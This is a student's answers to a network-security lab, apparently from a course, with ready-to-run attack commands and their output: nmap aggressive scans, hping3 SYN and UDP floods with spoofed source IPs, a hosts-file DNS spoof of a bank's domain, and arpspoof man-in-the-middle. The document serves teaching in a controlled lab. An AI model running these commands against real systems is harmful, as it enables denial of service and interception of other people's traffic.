

# Week 6, Friday exercises
https://docs.google.com/document/d/1gVMriZKmrK3q3AlGntUY07_LIr0ABsAeS5vMGNd3dJY/edit

## Nmap and aggressive

Let’s see what a server being scanned with nmap in aggressive mode, sees.  
Start Wireshark, and start a capture.  
Open a terminal and type: `nmap -v -p 0-5552 -A IP_TO_YOUR_OWN_OS`  
(Add -Pn if requested)  
This will probably take some time. If you have the time feel free to change ports to 0-65535 to scan all ports.  

##### Answer the following questions:  
nmap -v -p 0-5552 -A 192.168.1.83  

- How many packets were sent/received by this scan (see the bottom of the Wireshark Window)?  
25.115

- Do you think something like this, will pass on unnoticed by a server that about security?  
No, it's a really aggressive form to check every port from 0-5552 (where our app is located at 5551).  
At the same time we check for running services and applications.  

Our app is found: 
```
5551/tcp open  http          Node.js Express framework
```

todo add links to sample, log (ex1)  

## TCP SYN Flood Attack & Detection

### Slow TCP SYN Attack, without a spoofed IP  

Start a Wireshark capture  
Enter this command in the terminal: `sudo hping3 -S -V  IP_TO_SERVER -p 5551` (-S for SYN, -V for verbose)  
After a few seconds stop hping3 (CTRL-C) and stop the capture  
Enter tcp in Wireshark’s display filter  
- Compare the Wireshark output with your stored three-way handshake from part-1, and explain the result.  todo add images  
todo compare the two images  
Sends a packet every ~second

### Slow TCP SYN Attack, with random spoofed IP’s

Start a Wireshark capture  
Enter this command in the terminal:  
`hping3 -S -V  IP_TO_YOUR_SERVER -p 5551 --rand-source`  
After a few seconds stop hping3 (CTRL-C) and stop the capture  
Enter tcp in Wireshark’s display filter  

##### Explain the result, especially the Source addresses in use.  
Sends a packet every ~second.  
uses `--rand-source` to spoof source IP.  

```
$ sudo hping3 -S-V 192.168.1.83 -p 5551 --rand-source
using eth0, addr: 10.0.2.15, MTU: 1500
HPING 192.168.1.83 (eth0 192.168.1.83): S set, 40 headers + 0 data bytes
^C
--- 192.168.1.83 hping statistic ---
12 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```  

All the source IPs are different, ranging from 2.xxx.xxx.xx to 185.xxx.xx.xxx  

todo add link to sample, image  

### TCP SYN FLOW Attack, with random spoofed IP’s  

Start a Wireshark capture  
Enter this command in the terminal:  
`hping3 -S --flood  IP_TO_YOUR_SERVER -p 5551 --rand-source`  
After a few seconds stop hping3 and stop the capture  
Enter this in Wireshark’s display filter: `tcp && ip.src==IP_TO_KALI`  


- Look at the status bar to see how many TCP-packages ("displayed”) was sent from your client.  
Sent 23k packets in 30 seconds.

- Write down a small reminder to yourself, explaining the results of the observations made in the previous exercises.  

Using the `--flood` speeds up the process!  

```
$ sudo hping3 -S --flood 192.168.1.83 -p 5551 --rand-source
HPING 192.168.1.83 (eth0 192.168.1.83): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 192.168.1.83 hping statistic ---
23609 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```  
 todo check image, link sample  
Could not load image from server. After attack stopped everything was normal (not crashed)


## Performing a UDP Flood DOS attack  

Setup server as in exercise, Test it from Kali like this:   netcat -u SERVER_IP 5555  


### Performing the UDP Flood DOS attack  


Open a new terminal and, using hping3 type in the following:  
`hping3 --flood --udp -p 5555 SERVER_IP`  
Start a new Wireshark capture and let it run for 5-10 seconds (NOT MORE)  
While hping3 is still running, hit Enter a number of times in the Client Window. Do you get a response?  
Stop hping3  

##### Investigating the sample 
- In Wireshark, you should see a “billion” UPD packets, all with the UDP-server as the destination. How many packets were sent in total (see the status bar at the bottom)?  
Wireshark itself only caught 3102 packets before "the server crashed", but hping3 reported the following:

```
$ sudo hping3 --flood --rand-source --udp -p 5555 192.168.1.83
[sudo] password for kali: 
HPING 192.168.1.83 (eth0 192.168.1.83): udp mode set, 28 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 192.168.1.83 hping statistic ---
15003513 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

netcat was not getting any responses from the server.  

We would expect, for each UPD-packet sent, to get a packet back with the server-time.  
Enter this value in the display-filter box: udp && ip.dst==IP_FOR_KALI  

- How many packets did you receive (compared to what was sent)?
In Wireshark I received 2957/3006 packets, then the server couldn't handle it anymore.

Change the filter to this: ICMP && ip.dst==IP_FOR_KALI  
- Did you receive any ICMP packets (see the intro to this demo)?
No. Server probably went down before being able to send anything.  (But I did myself send from kali -> attk IP 2x *destination unreachable*)  


- Have you in effect demonstrated a DOS-attack?  
Yes.  

In this demo, we did not spoof the sender when we flooded the server since we would like to see the returned (if any) UDP packages.  
For a real attack, you can spoof your own IP, similar to what we did in the TCP SYN FLOOD Attacks as sketched here:  hping3 --flood --rand-source --udp -p 5555 SERVER_IP  

## DNS Attack Example

For a quick demo of the DNS-related part, we will poison the cache manually, but there are many “evil” alternatives to do this. For this simple demo, do the following in a Kali terminal:  
Open your hosts-file like so: sudo nano /etc/hosts   
Add this entry to the bottom of the file (REMEMBER TO REMOVE IT AFTER THE DEMO)  
68.183.71.148 danskebank.dk  
Open a new incognito window in your browser and type: http://danskebank.dk  
- Does this (proof-of-concept) demonstrate a  man-in-the-middle attack? If yes explain why and or draw the architecture  

If you can perform a MITM attack by spoofing the DNS cache you can redirect users visiting <homepage> to your own URL and grab their credentials.  


Since we are attacking Denmark's largest bank, they obviously try to prevent something like this.  
So, if you have ever visited danskebank.dk before, you are not allowed to do a NON-https request like this.  
- What did they do to get this security feature?  

Requesting access to **http**://danskebank.dk immediately redirects to the https site:
```
GET /privat HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```  

```
HTTP/1.1 307 Internal Redirect
Location: https://danskebank.dk/privat
Non-Authoritative-Reason: HSTS
```  
https://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security  

##  ARP Spoofing and more “advanced” attacks

`arpspoof -i eth0 -t IP_FOR_YOUR_LAPTOP -r IP_FOR_YOUR_GATEWAY`  
On your laptop, try to access any page on WEB.  
This is not possible since arpspoof has tricked your computer to think that your Kali-machine is the GateWay.  
Since Kali is not doing anything with those packages they are “lost”.  

### ARP-spoofing and man in the middle


